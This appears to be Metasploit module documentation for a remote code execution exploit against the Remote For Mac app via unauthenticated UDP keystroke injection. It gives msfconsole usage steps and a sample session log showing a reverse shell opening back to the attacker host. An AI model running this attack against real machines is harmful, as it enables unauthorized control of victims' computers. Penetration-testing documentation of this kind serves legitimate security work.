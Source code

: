 ## Vulnerable Application

The Remote For Mac app is a remote control software that allows you to turn your iPhone or iPad into a wireless remote controller for Mac.
The versions up to 2025.7 are vulnerable to unauthenticated UDP control.
This allows an attacker to send a sequence of UDP packets to the target and simulate keyboard input,
leaving an option for remote code execution.
The app can be downloaded from [here](https://rs.ltd/).


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/osx/misc/remote_for_mac_udp_rce`
1. Do: `set RPORT [HTTP port of Remote For Mac]`
1. Do: `set RHOST [target IP address]`
1. Do: `set LHOST [attacker IP]`
1. Do: `set LPORT [attacker port]`
1. Do: `run`

## Options

### RPORT

The Remote For Mac spawn HTTPS server on semi-random port.
The HTTP server provides information about running version and whether the authentication is enabled.
The same port is also used for UDP protocol - this time, the port translated received packets into keyboard strokes.

## Scenarios

```
msf6 exploit(osx/misc/remote_for_mac_udp_rce) > run verbose=true
[*] Started reverse TCP handler on 192.168.168.217:4444
[*] Simulating system keyboard input to open Terminal...
[*] Initial sequence finished, waiting for terminal to be spawned..
[*] Sending malicious payload to be executed...
[+] Payload sent. Awaiting session...
[*] Command shell session 3 opened (192.168.168.217:4444 -> 192.168.168.175:49197) at 2025-08-28 08:52:44 +0200

id
uid=501(ms) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)

```
